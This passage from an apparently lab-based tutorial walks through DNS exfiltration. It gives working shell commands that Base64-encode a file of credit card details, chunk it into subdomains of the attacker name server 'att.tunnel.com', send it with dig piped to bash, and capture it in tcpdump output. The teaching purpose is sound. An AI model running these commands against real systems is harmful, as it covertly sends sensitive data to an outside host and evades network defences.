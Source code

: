 Now that we have the Base64 representation, we need to split it into one or multiple DNS requests depending on the output's length (DNS limitations) and attach it as a subdomain name. Let's show both ways starting with splitting for multiple DNS requests.

Splitting the content into multipleDNSrequests  

```markup
thm@victim2:~$ cat task9/credit.txt | base64 | tr -d "\n"| fold -w18 | sed -r 's/.*/&.att.tunnel.com/' 
TmFtZTogVEhNLXVzZX.att.tunnel.com
IKQWRkcmVzczogMTIz.att.tunnel.com
NCBJbnRlcm5ldCwgVE.att.tunnel.com
hNCkNyZWRpdCBDYXJk.att.tunnel.com
OiAxMjM0LTEyMzQtMT.att.tunnel.com
IzNC0xMjM0CkV4cGly.att.tunnel.com
ZTogMDUvMDUvMjAyMg.att.tunnel.com
pDb2RlOiAxMzM3Cg==.att.tunnel.com
```

In the previous command, we read the file's content and encoded it using Base64. Then, we cleaned the string by removing the new lines and gathered every 18 characters as a group. Finally, we appended the name server "att.tunnel.com" for every group. 

Let's check the other way where we send a single DNS request, which we will be using for our data exfiltration. This time, we split every 18 characters with a dot "." and add the name server similar to what we did in the previous command.

Splitting the content into a singleDNSrequest  

```markup
thm@victim2:~$ cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/
TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com
```

Next, from the victim2 machine, we send the base64 data as a subdomain name with considering the DNS limitation as follows:  

Send the Encoded data via the dig command  

```markup
thm@victim2:~$ cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ | awk '{print "dig +short " $1}' | bash
```

With some adjustments to the single DNS request, we created and added the dig command to send it over the DNS, and finally, we passed it to the bash to be executed. If we check the Attacker's tcpdump terminal, we should receive the data we sent from victim2.  

Receiving the Data Using tcpdump  

```markup
thm@attacker:~$ sudo tcpdump -i eth0 udp port 53 -v
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
22:14:00.287440 IP (tos 0x0, ttl 64, id 60579, offset 0, flags [none], proto UDP (17), length 104)
    172.20.0.1.56092 > attacker.domain: 19543% [1au] A? _.pDb2RlOiAxMzM3Cg==.att.tunnel.com. (76)
22:14:00.288208 IP (tos 0x0, ttl 64, id 60580, offset 0, flags [none], proto UDP (17), length 235)
    172.20.0.1.36680 > attacker.domain: 23460% [1au] A? TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com. (207)
22:14:00.289643 IP (tos 0x0, ttl 64, id 48564, offset 0, flags [DF], proto UDP (17), length 69)
    attacker.52693 > 172.20.0.1.domain: 3567+ PTR? 1.0.20.172.in-addr.arpa. (41)
22:14:00.289941 IP (tos 0x0, ttl 64, id 60581, offset 0, flags [DF], proto UDP (17), length 123)
    172.20.0.1.domain > attacker.52693: 3567 NXDomain* 0/1/0 (95)
```
